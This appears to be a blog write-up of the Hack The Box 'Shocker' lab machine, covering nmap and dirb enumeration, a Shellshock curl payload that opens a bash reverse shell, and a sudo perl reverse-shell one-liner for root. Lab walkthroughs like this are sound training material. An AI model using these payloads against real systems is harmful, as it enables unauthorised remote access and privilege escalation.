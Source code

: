 ```yaml
---
layout: single_c
title:  "Hack The Box - Shocker Writeup"
date:   2020-07-05 10:43:16 +0530
toc: true
categories: HTB
tags: OSCP
classes: wide
---
```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/shocker.png){: .align-center}

## Description:
This is an easy linux box that is vulnerable to `shellshock`. Doing this as part of my OSCP preparation.

## Enumeration

Add `shocker` to `hosts` and start an `nmap` scan.

### Nmap

```bash
kali@kali:~$ sudo nmap -sS -A shocker.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-12 23:09 EDT
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```

### Dirb

```bash
kali@kali:~/Desktop/tools/autorecon/results/shocker.htb/scans$ dirb http://shocker.htb

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Aug 13 09:43:37 2020
URL_BASE: http://shocker.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://shocker.htb/ ----
+ http://shocker.htb/cgi-bin/ (CODE:403|SIZE:294)
```

Initial scan reveals a `cgi-bin` directory with `403` response.

At this point I had done literally everything possible for an initial foothold, but I could not find anything useful. After some clues from the name of the box and forums, I came to the conclusion that the box is vulnerable to `shellshock`.

Let's run `dirb` to see if there is any file in `cgi-bin` directory as this is the possible entry point for `shellshock`

```bash
kali@kali:~/Desktop/htb/shocker$ dirb http://shocker.htb/cgi-bin/ -X .sh

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Aug 13 11:14:02 2020
URL_BASE: http://shocker.htb/cgi-bin/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.sh) | (.sh) [NUM = 1]

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://shocker.htb/cgi-bin/ ----
+ http://shocker.htb/cgi-bin/user.sh (CODE:200|SIZE:118)

-----------------
END_TIME: Thu Aug 13 11:32:47 2020
DOWNLOADED: 4612 - FOUND: 1
```

Alright, we have a hit.

Looking at the contents of the file

```bash
Content-Type: text/plain

Just an uptime test script

 10:26:56 up 11:16,  0 users,  load average: 0.01, 0.01, 0.00


```

Nothing special. Lets start trying out payloads to trigger `shellshock`.


## User Shell

We can execute the following payload to get a reverse shell.

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'" shocker.htb/cgi-bin/user.sh
```

Start a listener to receive the shell.

```bash
kali@kali:~/Desktop/tools/autorecon/results/shocker.htb/scans$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.4] from shocker.htb [10.10.10.56] 52198
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## Root Shell

The user has permission to run `perl` as `sudo`.

```bash
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can execute a `perl` reverse shell to get `root`.

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Start a listener to receive the shell.

```bash
kali@kali:~/Desktop/tools$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from shocker.htb [10.10.10.56] 40916
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

And we are root!